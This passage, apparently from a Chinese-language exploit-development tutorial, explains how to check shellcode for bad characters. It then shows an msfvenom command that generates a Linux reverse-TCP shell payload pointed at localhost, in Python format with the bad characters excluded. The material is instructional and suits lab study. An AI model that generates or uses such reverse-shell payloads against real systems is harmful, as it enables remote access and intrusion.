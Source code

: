 ![图 10.10 – 概念验证：shellcode 不包含坏字符](img/Figure_10.10_B17616.jpg)

图 10.10 – 概念验证：shellcode 不包含坏字符

你可能会想，是否可以在线查找坏字符。这将帮助你发现一些常见的恶性字符，比如**\x00**。然而，这在不同系统之间可能会有所不同。不管怎样，这个过程是有价值的，因为你正在获得与目标的经验和熟悉度。

## 使用 msfvenom 生成 shellcode

现在我们知道了哪些字符会破坏我们的 shellcode，我们可以发出我们的**msfvenom**命令来抓取一个载荷，如下所示：

# msfvenom --payload linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=45678 --format py --bad-chars '\x00\x09\x0a\x20\xff'
